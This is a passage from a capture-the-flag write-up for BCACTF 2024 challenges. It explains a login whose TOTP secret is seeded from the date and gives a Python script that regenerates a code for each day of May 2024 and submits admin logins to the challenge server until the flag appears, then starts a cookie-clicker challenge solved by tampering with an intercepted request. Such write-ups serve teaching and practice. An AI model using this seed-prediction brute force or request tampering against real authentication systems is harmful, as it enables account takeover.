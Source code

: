 ```python
random.seed(datetime.datetime.today().strftime('%Y-%m-%d'))
```

* The seed of the random number generator is fixed for a particular date, and the description also refers to the final days of the last month (May).

* To solve this challenge, I wrote a script that tries every TOTP for each date in May 2024.

* Script to solve the challenge:

```python
import datetime
import random
import pyotp

import requests

url = "http://challs.bcactf.com:31772/"

for i in range(1,32):
    SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'
    random.seed(datetime.datetime(2024, 5, i).strftime('%Y-%m-%d'))
    totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])
    totp = pyotp.TOTP(totp_secret).now()
    payload = {
    "username": "admin",
    "password": "admin",
    "totp": {totp}
}   
    print(i)
    response = requests.post(url, data=payload)
    if 'incorrect' in response.text:
        continue
    else:
        print(response.text)
        break
        
# bcactf{rNg_noT_r4Nd0m_3n0uGH_a248dc91}
```

**Flag**: `bcactf{rNg_noT_r4Nd0m_3n0uGH_a248dc91}`

# Web/Cookie Clicker

> **Description** : You need to get 1e20 cookies, hope you have fun clicking! \
> **Author** : `Jack`

* As per the description, it looks like we have to click the cookie 1e20 times, which is obviously not possible manually.

* Let's intercept the request and increase the value of power.
